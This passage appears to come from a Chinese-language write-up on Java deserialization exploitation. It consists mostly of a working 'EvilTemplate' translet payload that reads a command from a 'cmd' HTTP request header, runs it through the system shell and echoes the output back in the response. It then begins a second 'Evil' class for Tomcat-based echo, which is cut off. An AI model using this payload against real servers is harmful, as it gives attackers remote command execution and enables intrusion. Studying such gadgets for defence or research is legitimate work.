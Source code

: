 ```java
public class EvilTemplate extends AbstractTranslet implements Serializable {
    public EvilTemplate() throws Exception{
        Class c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.RequestContextHolder");
        Method m = c.getMethod("getRequestAttributes");
        Object o = m.invoke(null);
        c = Thread.currentThread().getContextClassLoader().loadClass("org.springframework.web.context.request.ServletRequestAttributes");
        m = c.getMethod("getResponse");
        Method m1 = c.getMethod("getRequest");
        Object resp = m.invoke(o);
        Object req = m1.invoke(o); // HttpServletRequest
        Method getWriter = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.ServletResponse").getDeclaredMethod("getWriter");
        Method getHeader = Thread.currentThread().getContextClassLoader().loadClass("javax.servlet.http.HttpServletRequest").getDeclaredMethod("getHeader",String.class);
        getHeader.setAccessible(true);
        getWriter.setAccessible(true);
        Object writer = getWriter.invoke(resp);
        String cmd = (String)getHeader.invoke(req, "cmd");
        String[] commands = new String[3];
        String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
        if (System.getProperty("os.name").toUpperCase().contains("WIN")) {
            commands[0] = "cmd";
            commands[1] = "/c";
        } else {
            commands[0] = "/bin/sh";
            commands[1] = "-c";
        }
        commands[2] = cmd;
        writer.getClass().getDeclaredMethod("println", String.class).invoke(writer, new Scanner(Runtime.getRuntime().exec(commands).getInputStream(),charsetName).useDelimiter("\\A").next());
        writer.getClass().getDeclaredMethod("flush").invoke(writer);
        writer.getClass().getDeclaredMethod("close").invoke(writer);
    }

    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {

    }
}
```
还可以使用Tomcat回显，回显代码参考：[https://github.com/feihong-cs/Java-Rce-Echo](https://github.com/feihong-cs/Java-Rce-Echo)
Evil.java：
```java
package rome;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class Evil extends AbstractTranslet{
    public Evil() throws Exception {
        boolean flag = false;
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
```